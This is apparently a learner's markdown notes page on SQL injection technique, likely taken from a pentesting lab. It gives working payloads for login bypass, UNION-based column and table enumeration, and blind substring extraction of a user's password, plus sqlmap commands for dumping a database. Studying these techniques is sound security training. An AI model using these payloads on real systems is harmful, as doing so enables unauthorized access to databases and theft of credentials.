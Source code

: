 ### SQL Injection

SQL Injection takes advantage of weak input sanitization in order to run crafted SQL statements on a webpage and get back un-intended results that are supposed to be hidden.  
&ensp;A good cheat sheet resource  
&ensp;portswigger.net/web-security/sqlinjection/cheat-sheet  

Entry in a Search Field: `jeremy' or 1=1#` might return more than expected.  
&ensp;The ' at the end of jeremy    
&ensp;The `or 1=1` will always return true or equal everything in an SQL perspective  
&ensp;The # is a terminator which will end the sequel query.  There are some others depending on the version of SQL running.  

SQL Injection UNION - This allows us to grab information from other tables that we should not have access to.  We have to select the same number of columns as the original query.    
&ensp;In order to find out how many columns are needed you try this:  
&ensp;`jeremy' union select null#`  
&ensp;`jeremy' union select null,null#`  
&ensp;`jeremy' union select null,null,null#`  
&ensp;&ensp;Do this until you get a return with information and that null is your entry point  
&ensp;From here, once you know where you're going you can do something like the following:  
&ensp;`jeremy' union select null,null,version()#`  
&ensp;&ensp;This should spit out the version of the database  
&ensp;`jeremy' union select null,null,table_name from information_schema.tables#`  
&ensp;&ensp;This spits out the names of all the tables in the database.  You can also switch table for columns:  
&ensp;`jeremy' union select null,null,column_name from information_schema.columns#`  
Another constraint is the data type must match so you may have to try some different things to get integers to integers and strings to strings  
&ensp;`null(int)` or putting a number in a column, `1`  


Blind SQL Injection - it's called "blind" because you don't see the output returned like you would with a union statement.  You have to rely on different feedback in order to pull the information you want.  

If you can find an entry point you can extract information by using a series of Boolean questions in order to enumerate the information desired.  

Search w3schools.com for SUBSTRING() Function within SQL to help craft your query to enumerate the information you want.  

`SELECT SUBSTRING(string, start, length) AS ExtractString;`  
&ensp;`<injectable entry point>' and substring('a', 1, 1) = 'a'#`  
&ensp;This will check to see if the first character is an `a` or not.  You'll get a happy return if it is, and a log in error page if not because of the `AND` SQL statement.  

We want to change the first part in the substring argument to whatever it is we are wanting to try and enumerate  
&ensp;`<injectable entry point' and substring((select version()), 1, 1) = 'a'#`  
&ensp;&ensp;This will actually check if the first character of the version matches the end number.  
&ensp;&ensp;&ensp;Make sure you put the `select version()` in their own brackets to have it resolve first.  So this will grab the version number of the database and then run the check on it.  

From here, you can use Burp's Repeater in order to speed this up.  You'll just use the last part of the check (the `'a'`) and have burp run through the iterations of things that may take a longer time.  
&ensp;`<injectable entry point' and substring((select password from injection0x02 where username = 'colindy'), 1, 1) = 'a'#`  
&ensp;&ensp;This will `select` the `password` `from` the `injection0x02` table `where` the `username` is `'colindy'` and check to see if the first character is `a`.  



SQLmap   - read more on this, this is a very useful tool.  
`sqlmap -r rep.txt`  
&ensp;This will start a simple sqlmap scan on a packet grabbed from Burp Suite and sent to repeater.  Copy the whole packet and past it into a text file  
&ensp;&ensp;`--level=2`  This is needed for cookies  
&ensp;&ensp;`--dump`  This dumps the database  
&ensp;&ensp;`-T <tablename>`  This will run the command just on the table listed  